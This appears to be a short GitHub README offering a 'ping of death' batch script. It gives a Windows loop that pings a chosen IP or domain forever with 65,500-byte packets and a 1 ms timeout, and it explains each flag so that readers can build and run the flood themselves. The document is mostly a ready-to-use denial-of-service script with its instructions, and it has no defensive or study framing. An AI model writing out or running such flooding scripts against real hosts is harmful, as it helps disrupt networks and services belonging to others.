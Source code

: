 # pingofdeathscriptkiddy
Simple script for PoD

A PoD script can be easily written in any text editor and used on any network capable device. 
The following lines can be written using Notepad and later converted into a batch file by changing the file extension from .txt to .bat. 

$ :loop

$ ping <IP address/domain name> -l 65500 -w 1 -n 1

$ goto :loop

The usual ping command will send 4 packets of 32 bytes to the IP address with a slightly long timeout for each packet. 
Using -l allows us to modify the packet size and using -w we can set the timeout to a minimum of 1 
since we don’t care about the ping requests coming back to us. 
-n allows us to set the number of packets to be sent when the command is run. 
Since the batch file infinitely loops, we can set it to 1.
